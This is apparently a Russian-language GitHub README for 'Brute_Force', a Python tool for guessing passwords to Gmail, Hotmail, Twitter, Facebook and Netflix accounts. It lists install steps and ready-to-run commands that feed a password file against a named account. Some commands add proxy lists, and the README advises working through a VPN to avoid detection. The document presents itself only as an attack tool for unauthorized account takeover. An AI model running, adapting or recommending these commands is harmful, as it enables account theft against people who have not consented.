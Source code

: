 ﻿# Brute_Force
[![Python 3.10.2](https://img.shields.io/badge/3.10.2-Python-blue.svg)](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
![alt text](https://github.com/Kini-Noro/Brute/blob/main/.github/photo.PNG?raw=true)
## Установка :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Использование:

## Брутфорс Gmail
```bash
python3 Brute.py -g Account@gmail.com -l File_list

python3 Brute.py -g Account@gmail.com -p Password_Single
```


## Брутфорс Hotmail
```bash
python3 Brute.py -t Account@hotmail.com -l File_list

python3 Brute.py -t Account@hotmail.com -p Password_Single
```


## Брутфорс Twitter

```bash
python3 Brute.py -T Account_Twitter -l File_list
python3 Brute.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## Брутфорс Facebook

```bash
python3 Brute.py -f Account_facebook -l File_list
python3 Brute.py -f Account_facebook -l File_list -X proxy-list.txt
```
## Брутфорс Netflix

```bash

Предпочтительно работаеть с VPN
Start On Vpn
python3 Brute.py -n Account_Netflix -l File_list
python3 Brute.py -n Account_Netflix -l File_list -X proxy-list.txt


И с нетерпением ждем ваши идеи(^-^) 
```



